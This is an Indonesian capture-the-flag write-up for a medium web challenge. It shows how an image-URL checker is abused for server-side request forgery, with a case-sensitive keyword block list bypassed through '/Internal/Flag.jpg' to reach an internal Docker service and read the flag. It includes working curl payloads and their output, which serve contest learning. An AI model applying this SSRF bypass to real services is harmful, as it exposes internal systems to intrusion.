

# gudang Makanan — Writeup

**Category    :** Web  
**Difficulty  :** Medium  
**Target      :** http://gudang.sctf.my.id  
**Target      :** http://103.127.98.249:443/  
**Description :**

Gudang ini menyimpan lebih dari sekadar makanan.
Di balik rak-rak besar itu, tersimpan dokumen penting milik sang pemilik — hanya ia yang tahu caranya membuka brankas di balik dinding.

Konon, sang pemilik sering lalai. Ia meninggalkan catatan di tempat yang seharusnya tidak bisa dibaca siapapun.
Dan konon pula, ada cara unik yang ia gunakan untuk membuktikan siapa dirinya kepada gudangnya sendiri.

Temukan catatannya. Pahami cara berpikirnya. Jadilah dia.

## Solve

Pertama kita coba akses langsung `https://gudang.sctf.my.id/` lewat `curl` tapi malah kena Cloudflare Challange. Dari hint sebelumnya pada soal `Bank Vault` kemungkinan service bisa di akses via `IP:PORT` maka kita coba akses via `103.127.98.249:443` ternyata berhasil, walau saat coba akses langsung ke web akan terkena `400 Bad Request`.



Lalu kita coba akses kembali web nya

```bash
curl -skI --resolve gudang.sctf.my.id:443:103.127.98.249 \
  https://gudang.sctf.my.id/
```

output
```out
HTTP/1.1 200 OK
Server: openresty
Date: Fri, 03 Jul 2026 15:05:54 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 30906
Connection: keep-alive
X-Powered-By: Express
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Mon, 08 Jun 2026 02:19:33 GMT
ETag: W/"78ba-19ea5073308"
X-Served-By: gudang.sctf.my.id
```

Hasil dari `--resolve`, TLS dan `Host` tetap cocok ke `gudang.sctf.my.id`, tapi koneksi diarahkan langsung ke origin IP. lalu kita coba cek di Inspect, lalu ke Sources dan baca yang `app.js`, fitur utama “Cek Gambar Menu” mengirim request ke `POST /api/check-image`. Ini langsung mengindikasikan kemungkinan SSRF karena server melakukan fetch ke URL yang diberikan user.

Untuk memastikan endpoint tersebut benar-benar melakukan server-side fetch, request diuji ke URL eksternal yang bisa memantulkan request, misalnya `httpbin`.

```a
curl -sk --resolve gudang.sctf.my.id:443:103.127.98.249 \
  'https://gudang.sctf.my.id/api/check-image' \
  -H 'Content-Type: application/json' \
  --data '{"url":"https://httpbin.org/anything/test.jpg"}'
```

output
```output
{"success":true,"data":{"status":200,"statusText":"OK","contentType":"application/json","size":422,"sizeFormatted":"422 Bytes","preview":"data:application/json;base64,ewogICJhcmdzIjoge30sIAogICJkYXRhIjogIiIsIAogICJmaWxlcyI6IHt9LCAKICAiZm9ybSI6IHt9LCAKICAiaGVhZGVycyI6IHsKICAgICJBY2NlcHQiOiAiaW1hZ2UvKiwqLyoiLCAKICAgICJBY2NlcHQtRW5jb2RpbmciOiAiZ3ppcCxkZWZsYXRlIiwgCiAgICAiSG9zdCI6ICJodHRwYmluLm9yZyIsIAogICAgIlVzZXItQWdlbnQiOiAiR3VkYW5nTWFrYW5hbi1JbWFnZVZhbGlkYXRvci8yLjMiLCAKICAgICJYLUFtem4tVHJhY2UtSWQiOiAiUm9vdD0xLTZhNDdkNTAzLTA3NjJhYWIyNmEyMjdmZDk2MjIyNmE5YiIKICB9LCAKICAianNvbiI6IG51bGwsIAogICJtZXRob2QiOiAiR0VUIiwgCiAgIm9yaWdpbiI6ICIxMDMuMTI3Ljk4LjI0OSIsIAogICJ1cmwiOiAiaHR0cHM6Ly9odHRwYmluLm9yZy9hbnl0aGluZy90ZXN0LmpwZyIKfQo=","metadata":{"url":"https://httpbin.org/anything/test.jpg","fetchedAt":"2026-07-03T15:28:03.312Z","server":"gunicorn/19.9.0","headers":{"content-type":"application/json","content-length":"422","x-internal-service":null}}}}
```

Response dari aplikasi menunjukkan `"success":true` dan status target 200 OK. Pada field preview, aplikasi mengembalikan response dari httpbin dalam bentuk base64. Setelah field preview didecode, terlihat bahwa request ke httpbin benar-benar dikirim oleh server Gudang, bukan oleh browser/client kita, maka ini dibuktikan dari nilai origin yang mengarah ke IP server target

```decode
{
  "args": {}, 
  "data": "", 
  "files": {}, 
  "form": {}, 
  "headers": {
    "Accept": "image/*,*/*", 
    "Accept-Encoding": "gzip,deflate", 
    "Host": "httpbin.org", 
    "User-Agent": "GudangMakanan-ImageValidator/2.3", 
    "X-Amzn-Trace-Id": "Root=1-6a47d503-0762aab26a227fd962226a9b"
  }, 
  "json": null, 
  "method": "GET", 
  "origin": "103.127.98.249", 
  "url": "https://httpbin.org/anything/test.jpg"
}
```

Ini membuktikan bahwa endpoint /api/check-image melakukan fetch URL secara server-side. Maka, endpoint ini valid sebagai SSRF. Setelah itu kita coba unzip `batch.zip`, setelah diunzip ternyata berisi banyak file namun yang penting adalah file 

- `batch_src/docker-compose.yml`
- `batch_src/web/server.js`
- `batch_src/internal/server.js`

Pada `docker-compose.yml` ditemukan 2 service yaitu

- `web` = diexpose ke host (`8092:3000`)
- `gudang-api` = **tidak diexpose ke host**, hanya ada di network Docker internal

Artinya, kalau mau mencapai flag endpoint, jalurnya memang harus lewat SSRF dari service `web` ke hostname internal Docker.

Lalu pada Endpoint `POST /api/check-image` melakukan validasi

- hanya `http:` / `https:`
- blacklist hostname seperti `localhost`, `127.0.0.1`, dll
- blok private IP tertentu
- blok keyword sensitif di path: `internal`, `admin`, `flag`, `secret`, dll
- path harus berakhiran extension gambar seperti `.jpg`, `.png`, dll

Lalu server melakukan

```js
const response = await fetch(url, {
  headers: {
    'User-Agent': 'GudangMakanan-ImageValidator/2.3',
    'Accept': 'image/*,*/*'
  },
  redirect: 'follow',
  follow: 5
});
```

Jadi bug utamanya memang SSRF. Lalu service internal punya endpoint sensitif

- `/internal/status`
- `/internal/storage`
- `/internal/flag`

Pada route flag didefinisikan sebagai regex case-insensitive

```js
app.get(/^\/internal\/flag(\.[a-zA-Z0-9]+)?$/i, ...)
```

Selain itu, Express juga di-set menjadi case-insensitive:

```js
app.set('case sensitive routing', false);
```
Di `web/server.js`, filter path sensitif melakukan pengecekan seperti ini:

```js
if (blockedKeywords.some(keyword => urlPath.includes(keyword))) {
}
```

Masalahnya:

- daftar blacklist pakai lowercase: `internal`, `flag`, dll
- `urlPath` tidak dinormalisasi ke lowercase
- jadi pengecekan ini `case-sensitive`

Akibatnya:

- `/internal/flag.jpg` = diblok
- `/Internal/Flag.jpg` = lolos filter

Sementara itu service internal tetap akan menerima `/Internal/Flag.jpg` karena routing-nya case-insensitive. Dari `docker-compose.yml`, nama service internal adalah:

- `gudang-api`

Port default internal service adalah `8080`, jadi target SSRF yang benar adalah:

- `http://gudang-api:8080/Internal/Flag.jpg`

Payload ini memenuhi semua syarat:

- tidak memakai hostname yang diblacklist
- bukan private IP literal
- path tidak mengandung lowercase `internal` / `flag`
- path berakhiran `.jpg`

Lalu kita coba exploit dari seluruh informasi yang sudah kita dapat

```bash
curl -sk --resolve gudang.sctf.my.id:443:103.127.98.249 \
  'https://gudang.sctf.my.id/api/check-image' \
  -H 'Content-Type: application/json' \
  --data '{"url":"http://gudang-api:8080/Internal/Flag.jpg"}'
```

output
```out
{"success":true,"data":{"status":200,"statusText":"OK","contentType":"application/json; charset=utf-8","size":438,"sizeFormatted":"438 Bytes","preview":"data:application/json; charset=utf-8;base64,eyLwn5qpIjoiQ0FQVFVSRUQiLCJtZXNzYWdlIjoiPT09IFNFTEFNQVQhIEFuZGEgYmVyaGFzaWwgbWVuZ2Frc2VzIGRhdGEgcmFoYXNpYSBndWRhbmchID09PSIsImZsYWciOiJTQ1RGMjZ7Z3VkYW5nX21ha2FuYW5fdGlkYWtfYm9sZWhfYm9jb3J9Iiwic2V2ZXJpdHkiOiJDUklUSUNBTCIsImRlc2NyaXB0aW9uIjoiRGF0YSBzZW5zaXRpZiBndWRhbmcgbWFrYW5hbiBuYXNpb25hbCBiZXJoYXNpbCBkaWFrc2VzIGRhcmkgbHVhciBqYXJpbmdhbi4iLCJyZWNvbW1lbmRhdGlvbiI6IlNlZ2VyYSBwZXJiYWlraSB2YWxpZGFzaSBVUkwgcGFkYSBlbmRwb2ludCB2YWxpZGFzaSBnYW1iYXIuIEltcGxlbWVudGFzaWthbiBhbGxvd2xpc3QgZG9tYWluIGRhbiB2YWxpZGFzaSBETlMgcmVzb2x1dGlvbi4iLCJhY2Nlc3NlZF9hdCI6IjIwMjYtMDctMDNUMTc6MTk6MzQuMTczWiJ9","metadata":{"url":"http://gudang-api:8080/Internal/Flag.jpg","fetchedAt":"2026-07-03T17:19:34.179Z","server":"unknown","headers":{"content-type":"application/json; charset=utf-8","content-length":"438","x-internal-service":"gudang-warehouse-v1"}}}}
```

Response berisi JSON dari service internal, tetapi dibungkus lagi dalam format hasil validator. Nilai penting ada di field `preview`, berupa base64 dari JSON internal. Setelah di decode maka akan menjadi

```decode
{"🚩":"CAPTURED","message":"=== SELAMAT! Anda berhasil mengakses data rahasia gudang! ===","flag":"SCTF26{gudang_makanan_tidak_boleh_bocor}","severity":"CRITICAL","description":"Data sensitif gudang makanan nasional berhasil diakses dari luar jaringan.","recommendation":"Segera perbaiki validasi URL pada endpoint validasi gambar. Implementasikan allowlist domain dan validasi DNS resolution.","accessed_at":"2026-07-03T17:19:34.173Z"}
```

## Flag

```text
SCTF26{gudang_makanan_tidak_boleh_bocor}
```
